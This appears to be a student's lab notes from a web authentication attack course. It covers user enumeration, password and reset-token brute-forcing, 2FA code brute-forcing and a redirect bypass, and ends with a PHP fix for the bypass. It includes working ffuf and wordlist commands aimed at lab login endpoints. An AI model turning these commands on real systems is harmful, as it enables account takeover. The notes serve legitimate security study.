 ![[Pasted image 20240611220719.png]]

### Common Authentication Methods

- Knowledge-based authentication
- Ownership-based authentication
- Inherence-based authentication


| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

# Bruteforce Attacks

## Enumerating Users

- responds differently to registered/valid and invalid inputs for authentication endpoints

![[Pasted image 20240611221602.png]]

![[Pasted image 20240611221611.png]]


- Enumerate usernames using ffuf

```shell
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username"
```


### User Enumeration via Side-Channel Attacks

- the response timing, i.e., the time it takes for the web application's response to reach us
	- eg, if it checks for the userdb only for valid db rhen response time varies

### Brute-Forcing Passwords

- after finding username fuzz the password with the valid username
- filter the wordlist with password policies

```shell
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

```


```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.49.178:49729/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



### Brute-Forcing Password Reset Tokens


![[Pasted image 20240611233705.png]]


-  need to create an account on the target web application, request a password reset token, and then analyze it.


**Example:**

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```



- here a get request with parameter as toke is got so we can fuzz the token by generation numbers
- generate tokens


```shell
seq -w 0 9999 > tokens.txt
```




## Brute-Forcing 2FA Codes


![[Pasted image 20240612002024.png]]

![[Pasted image 20240612002032.png]]


```shell
pradyun2005@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


```shell
pradyun2005@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

- after successfull auth every hit will be successfull



## Authentication Bypass via Direct Access


#### Direct Access

- find where after succesful login redirects to /admin.php
- access /admin.php directly without login page
- Does it redirect to index.php => modify response of http request 
- `302 FOUND to 200 OK` In response that redirecting

Why this happens ??

```php
if(!$_SESSION['active']) {
	header("Location: index.php");
}
```

include exit after header to mitigate
```php
	exit;
```


